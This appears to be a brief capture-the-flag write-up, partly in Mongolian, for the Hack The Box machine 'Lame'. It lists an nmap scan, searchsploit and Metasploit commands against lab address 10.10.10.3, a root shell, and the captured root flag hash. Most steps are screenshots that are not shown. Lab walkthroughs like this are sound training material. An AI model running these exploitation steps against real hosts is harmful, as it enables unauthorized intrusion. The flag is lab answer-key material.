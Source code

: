 # Machine name: Lame 
![Screenshot (67)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/84a2e27c-f06a-46b7-8d96-c2228e9faff1)

1. nmap  -sC -sV

2. ![Screenshot (68)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/354db9eb-2daf-43b3-a1af-33e9fc4c4eff)
- smb асаалттай байсан

  ![Screenshot (69)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/08675205-e0cf-4559-b1e2-90dd1fcc1934) 
  ### searchsploit командаар exploit ажиллаж болох эсэхийг шалгасан
  
![Screenshot (70)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/ad7f1a8f-e046-4fed-93a3-ad9d15e926ce)
* search vsftp

![Screenshot (76)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/a3ec83e6-234e-4510-b5c4-877a5296f4af)

__set RHOSTS 10.10.10.3__
__set LHOST 10.10.10.20
> exploit
> #whoami - root
> cat root.txt 
#### e083b214836676f6ed095a19117c9a6
.
